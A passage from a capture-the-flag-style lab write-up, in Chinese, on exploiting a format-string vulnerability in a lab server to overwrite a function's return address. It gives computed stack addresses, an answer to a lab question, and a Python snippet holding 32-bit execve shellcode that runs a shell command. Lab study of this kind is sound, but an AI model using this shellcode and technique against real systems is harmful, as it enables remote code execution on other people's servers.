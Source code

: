 ```
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000041414141The target variable's value (after):  0xaabbccdd
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```



# Task 4: Inject Malicious Code into the Server Program

将一段恶意代码，以二进制格式注入到服务器的内存中，然后使用格式字符串漏洞修改函数的返回地址字段，因此当函数返回时，它跳转到我们注入的代码。这个任务使用的技术与前一个任务相似: 它们都修改内存中的4字节数。前一个任务修改目标变量，而此任务修改函数的返回地址字段

## Understanding the Stack Layout

首先，我们需要根据服务器打印出来的信息计算出返回地址字段的地址

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/202303291653197.png)

### Question 1: What are the memory addresses at the locations marked by 2 and 3

2：ebp+4=0xffffd538+4=FFFFD53C（myprintf返回地址）

3 ：0xffffd610（buffer的地址）

> Frame Pointer (inside myprintf):      0xffffd538
>
> The input buffer's address:    0xffffd610

### Question 2: How many %x format specifiers do we need to move the format string argument pointer to 3 ？ Remember, the argument pointer starts from the location above  1 

64

## Shellcode

这里地址要计算正确，十六进制减十进制被Windows自带的计算器坑惨了nnnd

- **buf的地址：0xffffd610**
- shellcode的地址：0xffffd610+0d1364=0xffffdb64
- ebp的地址：0xffffd538
- **返回地址：0xffffd538+0x4=0xFFFFD53C**

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


```
